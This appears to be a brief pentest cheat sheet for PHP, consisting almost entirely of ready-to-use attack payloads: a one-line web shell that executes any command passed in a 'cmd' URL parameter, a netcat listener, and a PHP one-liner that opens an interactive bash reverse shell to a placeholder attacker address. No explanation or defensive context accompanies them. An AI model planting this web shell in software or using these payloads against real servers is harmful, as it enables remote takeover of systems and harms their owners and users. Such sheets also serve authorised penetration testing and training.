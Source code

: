 # PHP
***

## Web Shell
```
<?php echo shell_exec($_GET[\'cmd\']); ?>
```

## Reverse Shell
### Attacker Machine
```
nc -lnvp 7777
```

### Target Machine
```
php -r '$sock=fsockopen("AttackerIP",7777);exec("/bin/bash -i <&3 >&3 2>&3");'
```
